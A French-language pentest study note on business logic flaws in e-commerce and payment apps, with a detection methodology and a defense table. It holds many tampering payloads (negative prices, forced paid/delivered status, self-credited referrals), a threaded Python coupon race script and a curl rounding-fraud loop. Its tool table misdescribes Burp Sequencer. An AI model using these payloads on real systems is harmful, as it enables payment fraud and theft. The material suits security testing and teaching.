

# Business Logic Errors

> [!info] **En 1 phrase**
> Business Logic Errors = exploiter la **logique métier** de l'app (paiement, commandes, abonnements,
> coupons) en l'utilisant de façon **légitime mais non prévue** — l'app fait exactement ce qu'on lui
> demande, mais la logique est mauvaise → articles gratuits, argent créé, accès premium sans payer.
>
> Source principale : **[PayloadsAllTheThings — Business Logic Errors](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Business%20Logic%20Errors/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> À la différence d'une SQLi ou d'un XSS, **il n'y a pas de bug de code** : les entrées sont filtrées,
> les requêtes sont correctes. C'est **la règle métier** qui est absente ou mal écrite
> (ex : aucun contrôle que le montant reste `> 0`, qu'un coupon n'est utilisé qu'une fois,
> qu'un essai gratuit n'est pas éternel). L'app **se comporte comme prévu**… mais le comportement attendu était débile.

---

## Les catégories

### Manipulation de prix

La valeur finale est calculée côté serveur à partir de paramètres, ou bien **fidèlement stockée** sans
recalcul. On altère le champ directement.

```json
// Manipuler le prix dans la requête de mise à jour du panier
{
  "product_id": 1337,
  "quantity": 1,
  "unit_price": -99.99,
  "total_price": 0
}
```

```http
POST /api/cart/update HTTP/1.1
Content-Type: application/json

{"product_id":1337,"quantity":1,"price":0}

POST /api/checkout/apply HTTP/1.1
Content-Type: application/json

{"shipping": -25, "discount": 500}
```

| Test | Payload / valeur | Objectif |
|---|---|---|
| Prix négatif | `"unit_price": -50` | le total diminue → solde négatif |
| Prix à 0 | `"price": 0` | article gratuit |
| Décimales | `"price": 0.001`, `"price": 999.9999` | arrondi / perte de centimes |
| Quantité changée | `"quantity": 999999` | overflow stock/prix |

> [!warning] **Le prix est souvent recalculé côté serveur** — mais le calcul peut utiliser le prix
> **envoyé par le client** au lieu de celui de la BDD. Teste les deux : champs `price` dans le body
> **et** manipulation du prix entre l'ajout au panier et le checkout.

### Coupons & discount codes

- Même code coupon appliqué **plusieurs fois** (réutilisable / sans compteur d'usage).
- Coupon **mono-usage** : Race Condition en l'utilisant depuis 2 comptes simultanément.
- Plusieurs coupons alors que l'app n'en accepte qu'un → Mass Assignment / HTTP Parameter Pollution.
- Coupon appliqué sur des articles **hors promotion** en altérant la requête.
- Coupon **partiel** : `100% off` un seul article, ou champs `amount`/`percent` réécrits.

```http
POST /api/checkout/coupon HTTP/1.1
Content-Type: application/json

{"coupon":"WELCOME20","amount":100,"type":"percent","items":["tous_les_articles"]}

# HPP : appliquer le même champ 2 fois (si le serveur n'en garde qu'un... ou les deux)
POST /api/checkout/coupon HTTP/1.1
Content-Type: application/x-www-form-urlencoded

coupon=WELCOME20&coupon=SECRET50
```

### Devises, taxes & arrondis

- **Arbitrage de devises** : payer en USD, se faire rembourser en EUR — la différence de taux = profit.
- Mélanger plusieurs devises dans le même panier (`"currency": "USD"` puis `"EUR"`).
- Taxe/valeur recalculée à partir d'un champ client (`"tax": 0`, `"country": "CH"` alors qu'on est en FR).
- **Rounding error** : transferts sous la précision minimale.

```http
POST /api/checkout HTTP/1.1
Content-Type: application/json

{"currency":"USD","amount":1}            # payé en USD
# puis demande de remboursement :
POST /api/orders/12345/refund HTTP/1.1
Content-Type: application/json

{"currency":"EUR","amount":1}            # remboursé en EUR, taux favorable → profit
```

### Quantités négatives & double soumission

- Ajouter `quantity: -5` pour **réduire** le total, voire le rendre négatif → solde crédité.
- Ajouter plus d'articles que le stock disponible.
- **Double soumission** du paiement / du bouton "commander" (pas d'idempotence).

```json
// Panier qui s'annule lui-même : -5 produit A + 5 produit B
{"items":[{"product":"A","quantity":-5},{"product":"B","quantity":5}]}
```

### États de commande & workflows

Le flux a des étapes (panier → paiement → livraison → réception) ; on **saute une étape** ou on force
une **transition illégitime**.

- Commande livrée sans être payée : `"status": "delivered"` directement.
- Livraison **gratuite** activée en modifiant `"shipping_method"` ou `"free_shipping": true`.
- Retour/remboursement d'un article jamais acheté, ou produit conservé **après** remboursement.
- Commande dupliquée en rejouant la requête de confirmation.

```http
POST /api/orders/1337/status HTTP/1.1
Content-Type: application/json

{"status":"delivered","payment_status":"paid"}

# Rejouer le paiement (pas d'idempotence) → plusieurs commandes pour 1 paiement
POST /api/payments/confirm HTTP/1.1

{"transaction_id":"PAY-12345"}
```

### Manipulation d'IDs & paramètres dans les flows

Flux multi-étapes (promotion, invitation, parrainage, reset de mdp) où un **ID/paramètre** contrôle
qui obtient quoi.

- Promotion : envoyer `"user_id": <victime>` ou `"referrer_id"` → créditer **son propre compte**.
- Invitation : utiliser le code d'invitation **de quelqu'un d'autre** (ou le sien) pour dupliquer.
- Parrainage : s'auto-parrainer, ou dupliquer le bonus en créant des comptes jetables.
- Reset de mdp : `"step": 3` pour sauter la vérification du code.
- Transfert de fonds : `"to_user": <cible>` → voler/vider le solde d'autrui.

```http
POST /api/referral/claim HTTP/1.1
Content-Type: application/json

{"referrer_id": 42, "reward": 50}     # s'auto-créditer le bonus
# ou
{"user_id": 1, "amount": 9999}
```

### Bypass de limites

Les limites (rate, quotas) sont **souvent côté client** ou **par utilisateur au lieu d'être globales**.

- Rate limiting : changer de session / d'IP / rejouer après reset du compteur.
- Parrainages : créer N comptes avec un email +1 (`foo+1@x.com`, `foo@x.com` avec point, alias).
- Abonnements : s'abonner → **résilier/rembourser → garder l'accès premium**.
- Essais gratuits : réinitialiser l'essai en créant un nouveau compte / `"trial_used": false`.
- Vérification email : endpoint `/verify` rejouable, ou booléen `"is_verified": true` envoyé par le client.
- Commentaires/avis : forcer plusieurs avis avec une race condition, ou sauter la limite "1 commentaire".

```json
// Booléen de vérification présent dans la requête → forcer à true
{"email":"attacker@x.com","is_verified":true,"trial_days":999}
```

### Time manipulation

L'app se fie à l'**horloge** pour les essais, promotions, enchères, calendriers.

- Réinitialiser le champ `"expires_at"` / `"trial_end"` dans la requête.
- Changer le fuseau horaire (`"timezone": "Pacific/Kiritimati"`) pour décaler le jour.
- Enchère / vente flash : rejouer la requête après la fin.
- **Integer overflow** sur le prix : `quantity: 9223372036854775807` → débordement signé → prix négatif.

```json
{"trial_end":"2099-01-01T00:00:00Z","timezone":"Pacific/Kiritimati"}
```

---

## Exemples concrets (payloads)

### Solde négatif → créditer le compte

```http
POST /api/wallet/recharge HTTP/1.1
Content-Type: application/json

{"amount": -100}
# Si pas de contrôle amount >= 0 : le compte est crédité, puis retrait.
# Variante "quantité négative" :
POST /api/cart/update HTTP/1.1
Content-Type: application/json

{"product_id": 10, "quantity": -3}
```

### Livraison gratuite

```http
POST /api/checkout/delivery HTTP/1.1
Content-Type: application/json

{"shipping_cost": 0, "free_shipping": true}
# Ou threshold contourné : prix total baissé PUIS remonté après le calcul
```

### Essai gratuit sans carte

```http
POST /api/subscribe HTTP/1.1
Content-Type: application/json

{"plan":"premium","payment_token":null,"trial":true,"billing_required":false}
# Si billing_required est lu côté client : passer sans carte, ou
# s'abonner → rembourser → garder l'accès premium (résilier sans révoquer)
```

### Double-use de coupon (et race condition)

```http
POST /api/checkout/coupon HTTP/1.1
Content-Type: application/json

{"coupon":"WELCOME20","apply_to":"all"}
# 1) Rejouer la requête → -20% à chaque fois ?
# 2) Coupon mono-usage : deux sessions simultanées (voir script race ci-dessous)
```

### Promotion sur mesure

```http
POST /api/admin/promo HTTP/1.1
Content-Type: application/json

{"code":"CUSTOM","percent":100,"user_id":31337,"valid_until":"2099-01-01"}
# Endpoint admin exposé ? Ou règle non vérifiée : coupon + payé = cashback
```

### Script race condition (coupon / prix)

```py
import requests, threading

URL = "https://target/api/checkout/coupon"
COUPON = "WELCOME20"
HITS = 0
lock = threading.Lock()

def use():
    global HITS
    r = requests.post(URL, json={"coupon": COUPON})
    with lock:
        if r.status_code == 200 and "applied" in r.text:
            HITS += 1

threads = [threading.Thread(target=use) for _ in range(30)]
for t in threads: t.start()
for t in threads: t.join()
print(f"Coupon appliqué {HITS} fois")
```

### Script arrondi (rounding error)

```bash
# Bitcoin : transférer 0.000000005 XBT (0.5 satoshi) en boucle.
# Débit arrondi à 0 côté émetteur, crédit arrondi à 1 satoshi côté receveur → argent créé.
curl -X POST https://target/api/transfer \
  -H "Content-Type: application/json" \
  -d '{"to":"receiver","amount":0.000000005}'
# Pas de rate limit + pas de montant minimum + pas d'OTP → automatiser à l'infini
```

---

## Méthodologie de détection

> [!tip] **Pas de scanner qui détecte ça** : la vulnérabilité est **fonctionnelle**, pas technique.
> Il faut **comprendre le métier** avant de tester.

1. **Cartographier le flux métier** : chaque étape (panier, coupon, checkout, paiement, remboursement,
   parrainage, abonnement, retours, avis) et les transitions légales.
2. **Casser l'ordre** : sauter une étape, rejouer une étape, inverser deux étapes, dupliquer une requête.
3. **Manipuler les valeurs limites** : `0`, `-1`, nombres négatifs, valeurs max (`MAX_INT`), décimales,
   `null`, booléens forcés (`true`/`false`), quantités absurdes, dates futures/passées.
4. **Différencier calcul client vs serveur** : modifier un champ, voir si le serveur le recale.
   Si la réponse affiche le **nouveau** montant, le paramètre est **fiable** (trusted) → win.
5. **Rejouer les requêtes** : la plupart des bugs de workflow = requête légitime rejouée (pas d'idempotence).
6. **Multi-comptes** : vérifier les vérifications par compte (parrainage, coupon, essai, avis).
7. **Documenter l'impact économique** : chaque bug = `montant × nombre d'itérations` → ça chiffre le rapport.

> [!warning] Les **tests de race condition** (2 comptes, même coupon) sont **destructeurs** sur les
> systèmes réels : coupons brûlés, paiements réels. Toujours sur un compte de test / un montant minimal.

---

## Outils

| Outil | Usage |
|---|---|
| **Burp Repeater** | Rejouer/modifier chaque requête du flux, changer un paramètre, observer la réponse |
| **Burp Sequencer** | Générer **des milliers de requêtes identiques** (race condition, rate limit, réutilisation) |
| **Burp Match & Replace** | Réécrire automatiquement `premium:false → true`, `trial:0 → 999` sur toutes les requêtes |
| **Burp Intruder** | Bruteforce de valeurs (IDs, montants, `step`, quantités) |
| **Burp Comparer** | Comparer 2 réponses pour détecter une logique différente (statut/prix/état) |
| **Python (requests + threading)** | Automation des races, boucles d'arrondi, double soumission |
| **Extension Autorize** | Tester les endpoints admin sans session / avec la session d'un autre rôle |

```bash
# Séquence Burp : extraire une requête, la rejouer 500× en parallèle
# 1. Envoyer la requête POST coupon → Repeater → "Send group in parallel"
# 2. Ou Sequencer → "Live capture" sur le endpoint vulnérable
# 3. Comparer les réponses : celles qui diffèrent = état non verrouillé
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Valider la logique côté serveur** | `price > 0`, `quantity >= 0` et ≤ stock, coupon une seule fois, montant min/max — **jamais** se fier aux valeurs du client |
| **Recalcul serveur** | Recalculer prix/taxes/remise depuis la BDD, ignorer `unit_price`, `total`, `shipping` envoyés par le client |
| **Idempotence** | Token d'idempotence (`Idempotency-Key`) sur paiement, checkout, remboursement, coupon |
| **Limites centralisées** | Rate limiting global (pas par session/IP seule), quotas serveur, contrôle des transitions d'état |
| **Vérifier l'état réel** | Un remboursement doit révoquer l'accès, un essai doit expirer côté serveur, la vérification email doit appeler le serveur |
| **Transactions / verrouillage** | `SELECT ... FOR UPDATE` + unique constraints pour les races (coupons, bonus, soldes) |
| **Time & arrondis** | Horloge serveur normalisée (UTC), calculs en centimes/entiers, rejet sous la précision minimale |
| **Tests métier (QA/AppSec)** | Tester les valeurs limites, l'ordre des étapes, le rejeu de requêtes — pas seulement les écrans "normaux" |
| **Surveillance** | Alertes sur les montants négatifs, coupon appliqués N fois, refunds multiples, tentatives de promotion |

---

## Tips & Pièges

> [!tip] **Ordre de test**
> 1. **Comprendre le flux** (toujours en premier) : panier → coupon → checkout → paiement → remboursement.
> 2. **Casser l'ordre** : sauter, rejouer, inverser les étapes.
> 3. **Manipuler les valeurs** : limites, négatifs, booléens, dates, IDs.
> 4. **Automatiser** ce qui marche (race, boucle, montant) pour prouver l'impact chiffré.

> [!warning] **Pièges classiques**
> - **Valider côté client ≠ valider côté serveur** : un `disabled` en JS ou un champ caché ne protège rien.
> - Ne jamais confondre **bug de code** (l'app plante) et **bug de logique** (l'app répond, mal). Si la
>   réponse est propre et la transaction exécutée… c'est souvent un business logic bug.
> - Un prix recalculé côté serveur ne veut pas dire sécurisé : teste `currency`, `country`, la **taxe**,
>   l'**arrondi** et le **fuseau** qui alimentent le calcul.
> - Les endpoints admin (promotions, remboursements) exposés = jackpot : teste-les avec la session d'un user normal.
> - **Race conditions** : très vite destructrices. Séparer les comptes de test, vérifier la double
>   soumission avec des tokens réutilisables plutôt qu'un vrai paiement.
> - Documente **l'impact économique** (`montant × itérations`) : c'est ce qui fait passer le bug en
>   criticité haute dans un bug bounty.
> - Le bug "solde négatif" classique fonctionne quand le retrait et le dépôt ne sont **pas atomiques** :
>   teste dépôt/retrait simultanés (race) en plus des valeurs négatives.

---

## Liens

- [[IDOR| IDOR]]
- [[Race Condition| Race Conditions]]
- [[Mass Assignment| Mass Assignment]]
- [[Injection SQL| Injection SQL]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Business Logic Errors](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Business%20Logic%20Errors/README.md)
